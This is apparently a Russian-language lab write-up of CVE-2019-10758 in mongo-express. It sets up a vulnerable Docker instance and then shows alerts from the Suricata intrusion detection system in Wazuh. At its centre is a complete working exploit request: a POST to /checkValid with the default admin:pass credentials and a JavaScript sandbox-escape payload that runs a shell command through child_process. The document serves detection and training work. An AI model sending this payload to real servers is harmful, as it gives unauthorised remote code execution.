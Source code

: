 # CVE-2019-10758

Mongo-express до версии 0.54.0 уязвим для удаленного выполнения кода через конечные точки, использующие метод toBSON. Если злоумышленник может успешно войти в систему или целевой сервер не изменил пароль учетной записи по умолчанию (admin:pass), он может выполнить произвольный код node.js.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8081 будет доступна веб-страница mongo-express

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости отправьте следующий POST-запрос с полезной нагрузкой

```
POST /checkValid HTTP/1.1
Host: ваш-ip:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В результате был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
